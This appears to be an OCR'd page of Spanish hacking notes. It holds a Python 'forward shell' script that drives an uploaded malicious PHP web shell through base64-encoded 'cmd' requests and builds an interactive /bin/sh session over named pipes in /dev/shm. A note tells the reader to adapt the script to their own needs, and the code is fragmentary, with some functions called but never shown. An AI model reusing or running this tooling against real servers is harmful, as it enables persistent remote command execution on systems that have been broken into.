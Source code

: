 ```python
	payload = {
		'cmd' : 'echo "%s" | base64 -d > %s' % (cmd, stdin)
	}
	result = (requests.get('http://127.0.0.1/index.php', params=payload, timeout=5).text).strip()
	return result

def ReadCmd():
        GetOutput = """/bin/cat %s""" % (stdout)
        output = RunCmd(GetOutput)
        return output

def SetupShell():
	NamedPipes = """mkfifo %s; tail -f %s | /bin/sh 2>&1 > %s""" % (stdin, stdin, stdout)
	try:
		RunCmd(NamedPipes)
	except:
		None
	return None

global stdin, stdout
session = randrange(1000, 9999)
stdin = "/dev/shm/input.%s" % (session)
stdout = "/dev/shm/output.%s" % (session)
erasestdin = """/bin/rm %s""" % (stdin)
erasestdout = """/bin/rm %s""" % (stdout)

SetupShell()

ReadingTheThings = AllTheReads()

def sig_handler(sig, frame):
	print("\n\n[*] Exiting...\n")
	print("[*] Removing files...\n")
	RunCmd(erasestdin)
	RunCmd(erasestdout)
	print("[*] All files have been deleted\n")
	sys.exit(0)

signal.signal(signal.SIGINT, sig_handler)

while True:
	cmd = input("> ")
	WriteCmd(cmd + "\n")
	time.sleep(1.1)
```

> Este script hay que adaptarlo según nuestras necesidades, si conseguimos introducir un archivo .php malicioso hay que especificar el mismo nombre en los siguientes apartados

def RunCmd(cmd):
	cmd = cmd.encode('utf-8')
	cmd = b64encode(cmd).decode('utf-8')
	payload = {
        	'cmd' : 'echo "%s" | base64 -d | sh' %(cmd)
		}
	result = (requests.get('http://127.0.0.1/index.php', params=payload, timeout=5).text).strip()
	return result
